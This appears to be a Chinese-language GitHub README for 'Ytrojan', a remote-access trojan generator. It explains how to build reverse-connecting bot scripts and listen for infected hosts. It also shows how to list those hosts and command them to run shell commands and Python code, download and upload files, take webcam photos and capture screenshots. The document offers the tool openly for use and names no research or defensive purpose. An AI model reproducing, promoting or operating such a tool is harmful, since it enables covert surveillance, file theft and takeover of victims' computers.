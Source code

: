 # Ytrojan

Ytrojan 一个基于TCP协议C/S架构的木马生成工具
控制端作为服务端 被控端作为客户端

## 选择语言/Select Your Language

   [English](/README.md)|简体中文

## 如何使用Ytrojan

用Python 3.10或以上版本的解释器运行Main-Cmd.py

运行结果
```
 __   ___             _             
 \ \ / / |_ _ __ ___ (_) __ _ _ __  
  \ V /| __| '__/ _ \| |/ _` | '_ \ 
   | | | |_| | | (_) | | (_| | | | |
   |_|  \__|_|  \___// |\__,_|_| |_|
                   |__/                         
                                      
Ytrojan $>
```  

### 使用generate命令生成被控端  

```
函数原型:ControlAPI.Generate(BotSrc,BotIp,BotPort)
命令:generate [路径] [ip] [port]
1.[路径] 为被控端脚本的路径
  例如: D:\bot.py  /home/bot.py
2.[ip] 为控制端ip
3.[port] 为控制端端口
```  

### 使用listen命令打开控制端端口 等待反向木马被控端的连接  

```
函数原型:ControlAPI.Listen(ControlPort)
命令:listen [port]

1. [ip]为控制端
```  

### 如何操作目标  

```
使用botnet命令查看所有被控端
命令:botnet  
输出:
   0  |  posix ycy0311 x86_64 127.0.0.1

左边的数字是被控端编号
右边第1个是操作系统类型(posix=MacOS/Linux nt=Windows)
右边第2个是设备网络名称
右边第3个是CPU架构
右边第4个是被控端ip
```  

```
使用run命令在被控端执行命令
命令:run [被控端编号] [命令]
[命令]
     1.shell [ShellCommand]
      例如(在编号为0的被控端执行shell命令)
         run 0 shell ls(在编号为0的被控端执行shell命令ls)
         run 0 shell pwd(在编号为0的被控端执行shell命令pwd)
     2.pycode [PythonCode]
      例如(在编号为0的被控端执行python代码)
         run 0 pycode import tkinter;w = tkinter.Tk();w.mainloop()
         run 0 pycode print("hack you computer")
     3.getfile [控制端储存路径] [被控端文件路径]
      例如(在编号为0的被控端下载文件)
         run 0 getfile D:\a.jpg /home/image.jpg (把被控端的/home/image.jpg下载至控制端D\a.jpg)
         run 0 getfile D:\movie.mp4 /home/a.mp4 (把被控端的/home/a.mp4下载至控制端D\movie.mp4)
     4.putfile [被控端储存路径] [控制端文件路径]
      例如(在编号为0的被控端上传文件)
         run 0 putfile /home/a.jpg D:\a.jpg (把控制端D:\a.jpg上传至被控端/home/a.jpg)
         run 0 putfile /home/a.py D:\a.py (把控制端D:\a.py上传至被控端/home/a.py)
     5.webcamsnap [控制端储存路径]
      例如(调用编号为0的被控端摄像头拍照)
         run 0 webcamsnap D:\webcamsnap.jpg (摄像头拍照被控端保存至控制端D:\webcamsnap.jpg)
     6.screenshot [控制端储存路径]
      例如(编号为0的被控端屏幕截图)
         run 0 screenshot D:\screenshot.jpg (摄像头拍照被控端保存至控制端D:\screenshot.jpg)
```
